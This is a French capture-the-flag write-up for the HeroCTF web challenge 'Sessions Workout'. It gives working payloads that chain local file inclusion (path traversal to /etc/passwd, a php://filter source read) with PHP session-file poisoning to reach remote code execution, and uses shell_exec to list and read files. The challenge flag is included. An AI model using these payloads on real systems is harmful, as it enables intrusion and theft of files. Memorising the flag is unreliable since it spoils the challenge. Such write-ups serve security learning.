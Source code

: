 # Sessions Workout

### Catégorie

Web

### Description

Des personnes malveillantes menacent d'exposer la vie de célébrités au grand public.. il faut absolument empêcher ça !!<br>
Vous avez pour but de récupérer un fichier contenu dans le home de l'utilisateur.

http://challs.heroctf.fr:3005/

Format : Hero{flag}

### Auteur

Worty

### Solution

Quand on arrive sur la page index.php, rien n'est apparant. Quand on commence à se balader sur le site, on remarque que les fichiers php sont accédés via un paramètre "page".

Ce paramètre est donc contrôlé par l'utilisateur, et donc potentiellement faillé. On essaye de passer un payload de type LFI "../../../../../etc/passwd". BOOM on récupère le fichier demandé, il y a donc une faille de type LFI.

Pour savoir ce qu'on peut en faire, on peut aller voir : https://github.com/swisskyrepo/PayloadsAllTheThings.

On sait que l'on doit aller lire un fichier dans le home de l'utilisateur, hors, on ne connait pas du tout le nom de son home. Nous allons donc devoir passer par un faille de type RCE (Remote Code Execution).

Avec la LFI, on récupère le contenu du fichier index.php : http://challs.heroctf.fr:3005/index.php?page=php://filter/convert.base64-encode/resource=index.php.

Dans ce fichier, on remarque plusieurs choses :
    - session_save_path('./OhD4Sessions'); : les sessions sont stockés dans un dossier qui est accessible par l'utilisateur.
    - $_SESSION['page'] = $_REQUEST['page']; : ce qui est passé dans le paramètre page est stocké dans la session.

Nous allons donc utiliser cette option pour passer notre code PHP et arriver à notre but !

Payload : http://challs.heroctf.fr:3005/index.php?page=<?php phpinfo(); ?>, ici, le serveur nous répond que le fichier n'existe pas, forcément, puisque c'est du code PHP.
On va donc maintenant accéder à notre session AVEC le paramètre page car on veut que notre code PHP soit exécuté.

Payload :  http://challs.heroctf.fr:3005/index.php?page=./OhD4Sessions/sess_<ID>
BOOM ! Notre code php est exécuté, nous avons donc notre RCE.

Nous allons donc maintenant devoir lister le contenu du dossier /home, pour connaître le nom de l'utilisateur :
Payload : http://challs.heroctf.fr:3005/index.php?page=<?php var_dump(shell_exec("ls /home")); ?>
On réaccède à notre session grâce à la LFI, et on remarque dans le dossier home l'utilisateur haxorhome.

Nous allons donc maintenant récupérer le nom du fichier à récupérer :
Payload : http://challs.heroctf.fr:3005/index.php?page=<?php var_dump(shell_exec("ls /home/haxorhome")); ?>
On réaccède à notre session grâce à la LFI, on remarque que le fichier se nomme flag.txt.

Payload final : http://challs.heroctf.fr:3005/index.php?page=<?php var_dump(shell_exec("cat /home/haxorhome/flag.txt")); ?>, et on réaccède à notre session grâce à la LFI, flag !

### Flag

Hero{p4y_4tt3nt10n_t0_s3ss1on_n3xt_t1m3_!!}